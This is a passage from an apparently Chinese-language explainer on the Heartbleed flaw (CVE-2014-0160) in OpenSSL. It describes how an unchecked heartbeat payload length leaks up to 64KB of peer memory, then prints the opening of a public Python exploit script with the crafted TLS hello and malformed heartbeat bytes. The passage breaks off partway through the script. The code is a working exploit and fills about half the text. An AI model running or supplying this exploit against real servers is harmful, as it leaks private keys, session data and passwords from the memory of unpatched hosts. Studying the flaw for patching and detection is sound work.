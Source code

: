 当服务器收到消息后，会对该消息进行解析，也就是对data中的字符串进行解析，通过解析第0位得到type，第1-2位得到payload，接着申请(1+2+payload)大小的内存，然后再将相应的数据拷贝到该新申请的内存中。

假如客户端发送的data数据为“006abcdef”，那么服务器端解析可以得到type=0, payload=06, pl='abcdef'，申请(1+2+6=9)大小的内存，然后再将type, payload, pl写到新申请的内存中。

但在存在漏洞的OpenSSL代码中包括TLS(TCP)和DTLS(UDP)都没有做边界的检测。服务器会按照payload的大小申请内存并将内存中的数据发回给客户端。 导致攻击者可以利用这个漏洞来获得TLS链接对端（可以是服务器，也可以是客户端）内存中的一些数据，至少可以获得16KB每次，理论上讲最大可以获取64KB。
3、漏洞检测及利用

利用代码：

	#!/usr/bin/python
	 
	# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
	# The author disclaims copyright to this source code.
	 
	import sys
	import struct
	import socket
	import time
	import select
	import re
	from optparse import OptionParser
	 
	options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
	options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
	 
	def h2bin(x):
	    return x.replace(' ', '').replace('\n', '').decode('hex')
	 
	hello = h2bin(''' 16 03 02 00 dc 01 00 00 d8 03 02 53 43 5b 90 9d 9b 72 0b bc 0c bc 2b 92 a8 48 97 cf bd 39 04 cc 16 0a 85 03 90 9f 77 04 33 d4 de 00 00 66 c0 14 c0 0a c0 22 c0 21 00 39 00 38 00 88 00 87 c0 0f c0 05 00 35 00 84 c0 12 c0 08 c0 1c c0 1b 00 16 00 13 c0 0d c0 03 00 0a c0 13 c0 09 c0 1f c0 1e 00 33 00 32 00 9a 00 99 00 45 00 44 c0 0e c0 04 00 2f 00 96 00 41 c0 11 c0 07 c0 0c c0 02 00 05 00 04 00 15 00 12 00 09 00 14 00 11 00 08 00 06 00 03 00 ff 01 00 00 49 00 0b 00 04 03 00 01 02 00 0a 00 34 00 32 00 0e 00 0d 00 19 00 0b 00 0c 00 18 00 09 00 0a 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0f 00 10 00 11 00 23 00 00 00 0f 00 01 01 ''')
	 
	hb = h2bin(''' 18 03 02 00 03 01 40 00 ''')
	 
	def hexdump(s):
	    for b in xrange(0, len(s), 16):
	        lin = [c for c in s[b : b + 16]]
	        hxdat = ' '.join('%02X' % ord(c) for c in lin)
	        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
	        print ' %04x: %-48s %s' % (b, hxdat, pdat)
	    print
	 
	def recvall(s, length, timeout=5):
	    endtime = time.time() + timeout
	    rdata = ''
	    remain = length
	    while remain > 0:
	        rtime = endtime - time.time() 
	        if rtime < 0:
	            return None
	        r, w, e = select.select([s], [], [], 5)
	        if s in r:
	            data = s.recv(remain)
	            # EOF?
	            if not data: